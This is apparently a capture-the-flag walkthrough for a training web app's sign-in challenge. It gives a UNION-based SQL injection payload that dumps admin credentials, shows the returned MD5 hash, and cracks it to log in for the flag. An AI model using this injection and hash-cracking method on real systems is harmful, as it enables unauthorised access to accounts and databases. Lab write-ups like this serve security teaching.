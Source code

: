 # signin

Using the same logic from the [members list](../../members/ressources/walktrough.md)
we can with an sql injection like `1 UNION SELECT username, password FROM Member_Brute_Force.db_default`
get this result
```
ID: 1 UNION SELECT username, password FROM Member_Brute_Force.db_default 
First name: admin
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
```
---
If we assume this is md5, it will be `shadow`. If we try to login at `/?page=signin`
with the username `admin` and the password `shadow`, we got the flag.
